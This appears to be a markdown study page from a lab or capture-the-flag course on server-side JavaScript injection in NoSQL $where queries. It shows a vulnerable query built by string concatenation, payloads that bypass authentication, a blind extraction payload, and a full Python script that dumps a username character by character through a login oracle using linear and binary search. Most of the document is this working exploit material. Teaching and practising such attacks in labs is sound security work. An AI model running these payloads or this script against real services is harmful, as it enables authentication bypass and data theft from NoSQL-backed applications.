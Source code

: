## Server-Side JavaScript Injection

One type of injection unique to NoSQL is `JavaScript Injection` This is when an attacker can get the server to execute arbitrary JavaScript in the context of the database. JavaScript injection may, of course, be in-band, blind, or out-of-band, depending on the scenario.

A quick example of this would be a server that used the `$where` query to check username/password combinations:

```sh
.find({$where: "this.username == \"" + req.body['username'] + "\" && this.password == \"" + req.body['password'] + "\""});
```


Authentication Bypass

```sh
$where: 'this.username == "" || ""=="" && this.password == "" || ""==""'
$where: 'this.username === "" || true || ""=="" && this.password === "<password>"'
```

Blind Data Extraction

```sh
" || (this.username.match('^.*')) || ""=="
```


## Automating Server-Side JavaScript Injection

```python
#!/usr/bin/python3

import requests
from urllib.parse import quote_plus

# Oracle (answers True or False)
num_req = 0
def oracle(r):
    global num_req
    num_req += 1
    r = requests.post(
        "http://127.0.0.1/index.php",
        headers={"Content-Type":"application/x-www-form-urlencoded"},
        data="username=%s&password=x" % (quote_plus('" || (' + r + ') || ""=="'))
    )
    return "Logged in as" in r.text

# Ensure the oracle is working correctly
assert (oracle('false') == False)
assert (oracle('true') == True)

# Dump the username ('regular' search)
num_req = 0 # Set the request counter to 0
username = "HTB{" # Known beginning of username
i = 4 # Set i to 4 to skip the first 4 chars (HTB{)
while username[-1] != "}": # Repeat until we dump '}' (known end of username)
    for c in range(32, 128): # Loop through all printable ASCII chars
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) == %d' % (i, c)):
            username += chr(c) # Append current char to the username if it expression evaluates as True
            break # And break the loop
    i += 1 # Increment the index counter
assert (oracle('this.username == `%s`' % username) == True) # Verify the username
print("---- Regular search ----")
print("Username: %s" % username)
print("Requests: %d" % num_req)
print()

# Dump the username (binary search)
num_req = 0 # Reset the request counter
username = "HTB{" # Known beginning of username
i = 4 # Skip the first 4 characters (HTB{)
while username[-1] != "}": # Repeat until we meet '}' aka end of username
    low = 32 # Set low value of search area (' ')
    high = 127 # Set high value of search area ('~')
    mid = 0
    while low <= high:
        mid = (high + low) // 2 # Caluclate the midpoint of the search area
        if oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) > %d' % (i, mid)):
            low = mid + 1 # If ASCII value of username at index 'i' < midpoint, increase the lower boundary and repeat
        elif oracle('this.username.startsWith("HTB{") && this.username.charCodeAt(%d) < %d' % (i, mid)):
            high = mid - 1 # If ASCII value of username at index 'i' > midpoint, decrease the upper boundary and repeat
        else:
            username += chr(mid) # If ASCII value is neither higher or lower than the midpoint we found the target value
            break # Break out of the loop
    i += 1 # Increment the index counter (start work on the next character)
assert (oracle('this.username == `%s`' % username) == True)
print("---- Binary search ----")
print("Username: %s" % username)
print("Requests: %d" % num_req)
```
